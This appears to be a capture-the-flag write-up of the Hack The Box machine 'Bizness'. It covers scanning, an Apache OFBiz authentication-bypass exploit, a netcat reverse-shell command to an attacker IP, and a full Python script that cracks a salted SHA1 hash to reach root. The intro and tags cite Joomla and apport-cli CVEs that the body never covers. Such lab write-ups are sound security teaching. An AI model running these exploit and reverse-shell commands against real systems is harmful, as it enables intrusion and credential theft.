



---

title: "Bizness"
categories: [CTF, Hack The Box]
tags: [EASY, Linux, Joomla, Local File Include, CVE-2023-23752, apport-cli 2.26.0, CVE-2023-1326]
mermaid: true
image: ../assets/img/htb/bizness/bizness.png

---

The exploration of the target machine began with a port scan using `nmap`, identifying active services and versions. Enumeration revealed a Joomla installation vulnerable to CVE-2023-23752, which allowed unauthorized access. Further investigation of port 80 led to discovering an authentication bypass vulnerability in Apache OFBiz, which was exploited to gain initial access through a reverse shell. During post-exploitation, a .dat file contained a hashed password, which was cracked using a custom script, ultimately providing root access.

# Overview



## 1. Intelligence Gathering

### Port Scan

```bash
nmap -sS -Pn --open -p- 10.10.11.252 -n -T4
```



Active service versions


## 2. Enumeration

### **Port 80**


I performed directory fuzzing:

```bash
dirb https://bizness.htb/ -w /usr/share/wordlists/dirb/big.txt
```


[https://bizness.htb/catalog/](https://bizness.htb/catalog/) redirected to → [https://bizness.htb/catalog/control/main](https://bizness.htb/catalog/control/main).


Searching about OFBiz


[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

SonicWall threat research identified a critical authentication bypass vulnerability with a CVSS score of 9.8, presenting an alarming risk to system integrity.


Let's check first if it's vulnerable.

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
```


```bash
python3 exploit.py --url https://bizness.htb
```


## 3. Exploitation

cmd


It executes commands but doesn't provide any output, so let's try sending a shell with netcat.

```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/sh 10.10.14.137 666'
```


I received the shell.

```bash
rlwrap -cAr nc -vnlp 666
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Initial Access


## 4. Post-Exploitation

### Privilege Escalation

I found the following ".dat" file.

```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6650.dat
```

There was a hash in the strings of the file.


> $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
> 

Checking the type of hash:

[Hash Type Identifier - Identify unknown hashes](https://hashes.com/en/tools/hash_identifier)


I couldn't crack it with John the Ripper or Hashcat

I used this script to crack the hash

[](https://github.com/PatxaSec/SHA_Decrypt/blob/main/sha2text.py)

`cracker.py`

```python
#!/bin/python3
#Author: PatxaSec

import hashlib
import base64
import os, sys
from tqdm import tqdm

class PasswordEncryptor:

    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        if not salt:
          salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      try:
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
      except hashlib.NoSuchAlgorithmException as e:
          raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        if hashed_password == search:
            break
print(f'\n [+] Pwnd !!! {hashed_password}::::{value}')
```


> monkeybizness
> 

Checking if it works for the superuser

Root Access

